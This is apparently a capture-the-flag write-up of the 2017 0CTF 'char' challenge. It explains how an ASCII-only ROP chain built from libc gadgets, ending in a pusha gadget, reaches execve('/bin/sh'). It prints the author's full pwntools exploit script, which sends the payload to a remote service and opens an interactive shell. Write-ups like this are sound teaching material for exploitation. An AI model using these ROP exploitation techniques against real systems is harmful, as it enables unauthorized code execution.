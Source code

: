 ```yaml
---
layout: post
title: 0Ctf - Char Writeup
description: "Writeup for the 2017 0ctf char challenge"
modified: 2016-03-15
tags: [writeup, ctf, pwn, rop]
comments: true
share: true
categories: [writeups]
---
```


This has been a fairly straightforward challenge. We were given with a binary that had a textbook buffer overflow with no canaries and NX enabled. The only twist in the story was the input filtering which only allowed ASCII characters. Each byte had to  be between 0x20 and 0x7f otherwise the program terminated. This meant that the challenge boiled down to crafting a ROP chain that only contains the "good" characters.

Lucky for us, the program mmaped the provided libc.so to the ASCII friendly 0x5555e000 address. This map was going to serve our only source of ROP gadgets as the program binary itself was loaded on a bad address. I began solving the problem by getting a list of the available libc calls that reside on good addresses. The *nm --dynamic libc.so* command can be used to list exported symbols and I quickly put together a little python script to filter the results.

```python
#!/usr/bin/python2
import sys

with open('functions.list') as f:
    for line in f:
        try:
            address = int(line.split()[0], 16) + 0x5555e000
        except ValueError:
            continue
        test = address
        try:
            for i in range(4):
                lbyte = (test & 0xff)
                if lbyte <= 0x1f or lbyte >0x7e:
                    raise ValueError('shit happens')
                test = test>>8
        except ValueError:
            continue
        sys.stdout.write(hex(address)+'/'+line) #line.split(' ', 1)[1])

```
Unfortunately neither the *system* function nor the */bin/sh* string was at a good address so I had to look for something else. It stuck to me that the *gets* function was available which could be used to overwrite my buffer with unfiltered data. This approach was a dead end and I briefly explain why. *gets* requires a single parameter a pointer to read to, which ,since this challenge was written on i386, is passed on the stack. I ideally wanted to overwrite the stack buffer so I had to push the ESP onto the stack, which seemed fairly easy to do. I quickly put together the ROP chain and then I realised that none of the libc variables are initialized. This is *obviously* not the real libc, just an mmaped binary blob, which means that libc init was never called and all the variables such as stdin pointer, env pointer are left as null. This of course breaks most of the libc function calls.

So I had to come up with a different approach relying only on system calls, or wrappers that do not use any of the aforementioned variables. My plan B became jumping to a *call execve* instruction with the correct parameters set up (I could not just jump to *execve* since it was on a bad address). The problem was that *execve* requires a pointer to the */bins/sh* string, which is on a bad address, and two null pointers (for env and arg) which again cannot be directly supplied. So I had to set up these parameters in registers and push them on the stack in the right order then call execve.

I used *ROPgadget --all* to gather the gadgets and filtered the output the same way as I filtered the symbol list. I have spent some time looking through the gadgets to figure out where and how I could set up the parameters and then I found the *pusha* gadget. *pusha* pushes all the general purpose registers onto the stack in the following order EAX, ECX, EDX, EBX, ESP, EBP, ESI, EDI. This was perfect for me all that was left to do:

* set EAX to 0 as it is going to be the env pointer
* set ECX to 0 as the arg pointer
* calculate the address of */bin/sh* in EDX
* put the address of *call execve* in EBX
* set the address of the next gadget in EDI which was going to be executed after the *pusha*, this gadget should pop off 3 items from the stack (former ESP, EDI, ESI) so that the *call execve* gets executed

There were *pop edi* and *pop ebx* gadgets so setting those up was trivial, just as well as setting EAX to null with a *xor eax eax* gadget. ECX was set to null with and *xchg eax, ecx* gadget and EDX was calculated with an *add eax, 0xc35b0000* and *sub edx, eax* gadgets, setting EAX and EDX appropriately beforehand (/bin/sh: 0x556bb7ec = 0x3a212121-(0xc35b0000+0x215a6935)). The actual exploit code is really messy and I am too lazy to clean it up, so I am just gonna copy it here as is. I hope this explanation makes up for it. The ROP chain worked like a charm after spending considerable amount of time piecing it together, the flag was:

```
flag{Asc11_ea3y_d0_1t???}
``` 

```python
if __name__ == "__main__":
    c = remote(IP, PORT)

    binsh = 0x556bb7ec

# 0x556d2a51/0x00174a51 : pop ecx ; add al, 0xa ; ret
    popecx = 0x556d2a51
# hex((0x3a212121-(0xc35b0000+0x215a6935))&0xffffffff)
    edxval = 0x3a212121
    ecxval = 0x215a6935
# 0x555f3555/0x00095555 : pop edx ; xor eax, eax ; pop edi ; ret
    popedx = 0x555f3555 # 0 eax popedi
    filler = 'CCCC'
# 0x556a6253/0x00148253 : mov eax, ecx ; ret
    moveaxecx = 0x556a6253
# 0x5557734b/0x0001934b : add eax, 0xc35b0000 ; ret
    addieax = 0x5557734b
# 0x5560365c/0x000a565c : sub edx, eax ; pop esi ; mov eax, edx ; pop edi ; pop ebp ; ret
    subedxeax = 0x5560365c #pop esi,edi, ebp trash eax
    
    # Set up bin sh addr in edx
    payload = 'A'*32 +p32(popecx) + p32(ecxval)\
        + p32(popedx) + p32(edxval) + filler \
        + p32(moveaxecx)+p32(addieax) + p32(subedxeax) +filler*3
  

# 0x55617a5f/0x000b9a5f : xchg eax, ecx ; mov eax, 0xff ; jne 0xb9a41 ; ret
    xchgeaxecx = 0x55617a5f
# 0x555f6428/0x00098428 : xor eax, eax ; ret
    xoreax = 0x555f6428
    # Set null in ecx and eax
    payload += p32(xoreax) + p32(xchgeaxecx) + p32(xoreax)


# 0x555f2166/0x00094166 : pop ebx ; pop edi ; ret
    popebxedi = 0x555f2166
    callexecve = 0x55616967
    
    # Set up ebx and edi
    # the subedxeax gadget pops esi, edi, ebp so 
    #it is used to position the stack after the pusha
    payload += p32(popebxedi) + p32(callexecve) + p32(subedxeax)

# pushal; ret; -> returns edi
    pushal = 0x5563704c
    # pushall
    payload += p32(pushal)
 
    #print hexdump(payload)
    payload += 'B'*(2398-len(payload))
    #sys.stdout.write(payload)
    #sys.stdout.flush()
    c.sendline(payload)

    c.interactive()
```
